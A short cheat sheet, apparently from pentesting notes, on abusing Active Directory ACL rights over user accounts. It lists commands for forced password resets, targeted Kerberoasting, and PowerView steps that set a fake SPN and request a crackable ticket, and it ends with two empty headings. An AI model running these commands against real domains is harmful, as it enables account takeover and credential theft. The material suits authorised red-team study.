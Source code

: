 # ACLs/ACEs permissions on User

### ForceChangePassword

    net user USER PASSWORD /domain (Windows)

    net rpc password USER PASSWORD -S DC_FQDN (Linux)

### GenericAll / GenericWrite

#### 1) Change Password

    net user USER PASSWORD /domain

#### 2) Targeted Kerberoasting (add SPN)

    targetedKerberoast.py -d DOMAIN -u USER -p PASS (TGS Hash)

 ### Alternate method: Powerview

#### 1) Enumerate interesting ACLs with powerview

    Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "OUR_USER"} 

#### Then:

    Set-DomainObject -Identity TARGET_USER -SET @(serviceprincipalname='nonexistent/WHATEVER') (Powerview)

    Get-DomainSPNTicket -SPN nonexistent/WHATEVER (Powerview)

#### 3) Logon Script (Access)

#### 4) add Key Credentials (Shadow Credentials)
